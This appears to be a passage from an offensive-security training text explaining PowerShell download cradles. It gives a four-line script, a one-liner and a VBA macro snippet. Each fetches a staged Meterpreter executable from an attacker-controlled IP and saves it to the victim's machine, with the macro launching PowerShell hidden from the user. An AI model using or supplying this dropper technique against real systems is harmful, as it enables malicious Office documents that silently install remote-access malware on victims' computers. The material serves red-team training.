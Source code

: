 Since PowerShell has access to the .NET framework, we can easily implement specialized techniques such as download cradles to download content (like second stage payloads) from external web servers. The most commonly-used variant is the [*Net.WebClient* class](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-8.0). By instantiating an object from this class, we can call the [DownloadFile method](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-8.0) to download any file from a web server to the victim.

In the following example, we'll invoke the *DownloadFile* method. We'll assemble a full script, then reduce it to a single one-liner.

*DownloadFile* takes two arguments: the URL of the file to be downloaded and the output filename. The entire download procedure can be written in just four lines of PowerShell:

```fence
$url = "http://192.168.119.120/msfstaged.exe"
$out = "msfstaged.exe"
$wc = New-Object Net.WebClient
$wc.DownloadFile($url, $out)
```

> Listing 8 - PowerShell code to download Meterpreter executable

In this code listing, we created a variable for the file we want to download, then a variable for the name of the local file. Next, we instantiated the *Net.WebClient* class to create a download cradle from which we then invoke the *DownloadFile* method to download the file. In this case, we used the same staged Meterpreter executable we created earlier.

We can compress this into a single one-liner:

```fence
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')
```

> Listing 9 - PowerShell one-liner to download Meterpreter executable

Let's embed this into our Word macro using VBA and have PowerShell do the heavy lifting for us. We will slowly build it here, piece by piece, and then review the completed code.

Most PowerShell download cradles use HTTP or HTTPS, but we could use [TXT records](https://en.wikipedia.org/wiki/TXT_record) and a [DNS transport](https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle) instead.

As an overview, we'll set up a download cradle by converting our PowerShell string to work in VBA. We'll wait for the file to download and then execute the file.

Let's start writing our VBA code. The first step is to declare our string variable and fill that string with the PowerShell download cradle code. Next, we'll use the *Shell* method to start PowerShell with the one-liner as an argument. We'll then instruct the *Shell* method to run the code and hide the output from the user.

This code segment will download the file to the victim's machine:

```fence
Dim str As String
str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
Shell str, vbHide
```
